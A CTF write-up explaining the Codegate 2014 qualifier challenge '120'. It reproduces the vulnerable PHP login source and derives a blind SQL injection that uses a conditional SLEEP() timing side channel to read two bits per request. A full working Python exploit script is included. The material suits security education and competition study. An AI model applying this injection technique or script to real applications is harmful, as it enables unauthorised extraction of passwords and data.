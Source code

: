 ```yaml
---
layout: post
title: "Codegate 2014 Quals: 120"
date: 2014-02-26 06:51:10 +0000
permalink: /blog/codegate-2014-quals-120/
category: Security
tags: CTF,Security,Shadow Cats
---
```

From Codegate 2014 quals comes "120".  Provided is a web interface with a single text box and a link to the source, reproduced below:

    #!php
    <?php
    session_start();
    
    $link = @mysql_connect('localhost', '', '');
    @mysql_select_db('', $link);
    
    function RandomString()
    {
      $filename = "smash.txt";
      $f = fopen($filename, "r");
      $len = filesize($filename);
      $contents = fread($f, $len);
      $randstring = '';
      while( strlen($randstring)<30 ){
        $t = $contents[rand(0, $len-1)];
        if(ctype_lower($t)){
        $randstring .= $t;
        }
      }
      return $randstring;
    }
    
    $max_times = 120;
    
    if ($_SESSION['cnt'] > $max_times){
      unset($_SESSION['cnt']);
    }
    
    if ( !isset($_SESSION['cnt'])){
      $_SESSION['cnt']=0;
      $_SESSION['password']=RandomString();
    
      $query = "delete from rms_120_pw where ip='$_SERVER[REMOTE_ADDR]'";
      @mysql_query($query);
    
      $query = "insert into rms_120_pw values('$_SERVER[REMOTE_ADDR]', ".
          "'$_SESSION[password]')";
      @mysql_query($query);
    }
    $left_count = $max_times-$_SESSION['cnt'];
    $_SESSION['cnt']++;
    
    if ( $_POST['password'] ){
      
      if (eregi("replace|load|information|union|select|from|where|" .
        "limit|offset|order|by|ip|\.|#|-|/|\*",$_POST['password'])){
        @mysql_close($link);
        exit("Wrong access");
      }
    
      $query = "select * from rms_120_pw where ".
        "(ip='$_SERVER[REMOTE_ADDR]') and " .
        "(password='$_POST[password]')";
      $q = @mysql_query($query);
      $res = @mysql_fetch_array($q);
      if($res['ip']==$_SERVER['REMOTE_ADDR']){
        @mysql_close($link);
        exit("True");
      }
      else{
        @mysql_close($link);
        exit("False");
      }
    }
    
    @mysql_close($link);
    ?>
    
    <head>
    <link rel="stylesheet" type="text/css" href="black.css">
    </head>
    
    <form method=post action=index.php>
      <h1> <?= $left_count ?> times left </h1>
      <div class="inset">
      <p>
        <label for="password">PASSWORD</label>
        <input type="password" name="password" id="password" >
      </p>
      </div>
      <p class="p-container">
        <span onclick=location.href="auth.php"> Auth </span>
        <input type="submit" value="Check">
      </p>
    </form>

The TL;DR of this code is that it uses your PHP session to store a 30 character lowercase letter token, and a counter of how many tries you've made against it.  You're given 120 total tries, then a new code will be generated, meaning any data you've been able to glean is useless.  For what it's worth, not all letters are equally likely -- the source of the data is Aleph One's "Smashing the Stack for Fun and Profit."  The code contains a blacklist to protect against certain types of SQL injection, but certainly doesn't cover all SQL injection possibilities.

So let's do some math.  Clearly, trying all possible passwords is out of the question at 26<sup>30</sup> possibilities.  With the SQL injection, we could try each character separately, using SUBSTR, but that still leaves us with 26*30 (780) possibilities, well more than the 120 we have to work with.  What about probabalistically trying the letters in the order of their frequency in the source document.  It turns out the letter distribution still requires ~8 tries per letter, meaning we can only get ~13 letters in our 120 tries, or would need 240 tries for the whole passphrase.

Let's consider that our character set is all lower case letters -- how much possible entropy is there?  Well, only the lowest 5 bits vary among lower case ASCII letters.  So, if we do a bitwise test, we only need 5*30 = 150 tests, but 150 is still too many.  If only we could test 2 bits at a time, then we'd only need (ideally) 75 tries.  How can we do that when the only signal we get back is a True/False value?  Well, we must consider side channels -- such as timing.  Merely measuring the timing of 2 bit comparisons is not significant enough to cover for network/server variance, but if we could conditionally introduce additional latency, we could use that as a signal.  Fortunately, SQL offers us a <a href='https://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep'><code>sleep()</code></a> function that we can use to introduce this latency and help us take measurements, but how to introduce it conditionally?

Note that the <code>sleep()</code> function returns a false-equivalent value when it completes.  Consider the statement <code>((A AND SLEEP(3)) OR B)</code>.  This is the truth table for the statement:

<table>
  <tr><th>A</th><th>B</th><th>Time</th><th>Output</th></tr>
  <tr><td>F</td><td>F</td><td>&lt;3 s</td><td>F</td></tr>
  <tr><td>T</td><td>F</td><td>&gt;3 s</td><td>F</td></tr>
  <tr><td>F</td><td>T</td><td>&lt;3 s</td><td>T</td></tr>
  <tr><td>T</td><td>T</td><td>&gt;3 s</td><td>T</td></tr>
</table>

As can be seen, the value of <code>A</code> controls the timing, and the value of <code>B</code> controls the output.  To read a single bit, we can use a construct like <code>ASCII(SUBSTR(password, N, 1)) &amp; 1 &lt;&lt; p</code>.  This checks if the p-th bit in the N-th byte is set.  Collectively, this gives us the ability to read 2 bits with a single request.  To break up the bits we need to read, it's most straightforward to read 1 bit by itself, then 2 pairs of 2 bits from each character.  Though suboptimal, it makes implementation straightforward, and still only requires 3 requests per byte, or 90 requests total.

Putting it all together, we get the following code.

    #!python
    import urllib
    import urllib2
    import cookielib
    import sys
    import time
    
    cj = cookielib.CookieJar()
    opener = urllib2.build_opener(urllib2.HTTPCookieProcessor(cj))
    
    cookies_printed = False
    
    def inject(pw):
      global cookies_printed
      data = urllib.urlencode({'password': pw})
      req = opener.open(
          'http://58.229.183.24/5a520b6b783866fd93f9dcdaf753af08/'
          'index.php', data)
      if not cookies_printed:
        for c in cj:
          print c
        cookies_printed = True
      return req.read().strip() == 'True'
    
    def stdinject(cond):
      return inject("' OR %s OR 'x'='" % cond)
    
    def indexmatch(pos, val):
      # Convert 0-indexed to 1-indexed
      substr = 'SUBSTRING(password, %d, 1)' % (pos+1)
      return stdinject(substr + ("='%s'" % val))
    
    def twobitchar(pos):
      bits = [0]*5
      substr = 'SUBSTRING(password, %d, 1)' % (pos+1)
      # test top most bit
      if stdinject('ASCII(%s) & %d' % (substr, 1 << 4)):
        bits[4] = 1
    
      def twobittest(lower):
        # (bit(1) and sleep(3)) or bit(2)
        # time indicate bit(1)
        # truth indicates bit(2)
        sleep_time = 3
        start_time = time.time()
        ascii_str = 'ASCII(%s)' % substr
        if stdinject('((%s & %d AND SLEEP(%d)) OR %s & %d)' % (
          ascii_str, 1 << (lower+1), sleep_time, ascii_str, 1 << lower)):
          bits[lower] = 1
        stop_time = time.time()
        if (stop_time - start_time) > sleep_time:
          bits[lower+1] = 1
    
      # test next 2 bits
      twobittest(2)
      # test last 2 bits
      twobittest(0)
    
      # reassemble bits
      return chr(int('0b11' + ''.join('%d' % b for b in reversed(bits)),2))
    
    def runtwobit():
      passwd = ''
      for c in xrange(30):
        passwd += twobitchar(c)
        print '[%d] %s' % (c, passwd[-1])
      if inject(passwd):
        print passwd
      else:
        print 'Validation failed!'
    
    runtwobit()

Note the need for special treatment for the HTTP requests -- since PHP sessions are in use, we need to provide a CookieJar and output the cookie value so we can use both the session and the password to exchange for our flag and get our points.
